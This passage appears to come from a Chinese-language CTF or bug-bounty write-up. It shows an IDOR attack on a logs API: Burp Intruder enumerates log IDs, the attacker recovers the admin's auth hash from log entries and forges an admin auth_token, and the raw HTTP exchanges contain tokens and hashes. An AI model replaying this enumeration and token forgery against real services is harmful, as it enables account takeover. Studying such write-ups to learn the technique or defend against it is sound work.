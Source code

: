 **获得:**

```
HTTP/1.1 200 OK
Server: nginx/1.15.8
Date: Mon, 18 Nov 2019 08:52:40 GMT
Content-Type: application/json
Content-Length: 159
Connection: close{"code":200,"data":[{"log_details":"user_id(6) created by auth_hash(4f9dd56abac816f917c720a7c46d4044)",**"log_id":37**,"log_name":"application log","user_id":6}]}
```

**之后我发出了请求:**

```
GET /logs/all/log_id/37 HTTP/1.1
auth-token: 6.4f9dd56abac816f917c720a7c46d4044
device-id: c515834365310176f8117a18bb5ad994
Content-Type: application/json
Content-Length: 2
Host: 66.172.33.148:5001
Connection: close
Accept-Encoding: gzip, deflate
User-Agent: okhttp/3.10.0
```

**返回相同的结果。所以我对 Burp Suite 的入侵者进行了 1 到 37 的尝试，id`23`和`28`很有趣:**

```
HTTP/1.1 200 OK
Server: nginx/1.15.8
Date: Sat, 16 Nov 2019 11:33:45 GMT
Content-Type: application/json
Content-Length: 166
Connection: close{"code":200,"data":{"logs":{"log_details":"**user_id(1) created by auth_hash(7974d396f5cfcdbe3433037c11e819ca)**","log_id":23,"log_name":"application log","user_id":1}}}--------------------------------------------------------------------HTTP/1.1 200 OK
Server: nginx/1.15.8
Date: Thu, 14 Nov 2019 11:47:19 GMT
Content-Type: application/json
Content-Length: 149
Connection: close{"code":200,"data":{"logs":{"log_details":"**user_id(1) shared a private link named test**","log_id":28,"log_name":"application log","user_id":1}}}
```

**结论:**

1.  **我有了`auth_token`(1.7974d 396 F5 cfcdbe 3433037 c11e 819 ca**)****
2.  **我有管理员的`random_id`(来自 [cmd5](https://www.cmd5.org/) 的 493291123)**
3.  **管理员给了我一个`link_name`**

**我开始通过管理员`auth_token`调用`My Links`端点:**

```
HTTP/1.1 200 OK
Server: nginx/1.15.8
Date: Mon, 18 Nov 2019 10:36:35 GMT
Content-Type: application/json
Content-Length: 98
Connection: close{"code":401,"data":{"msg":"Device-Id(c515834365310176f8117a18bb5ad994) mismatch for user_id(1)"}}
```
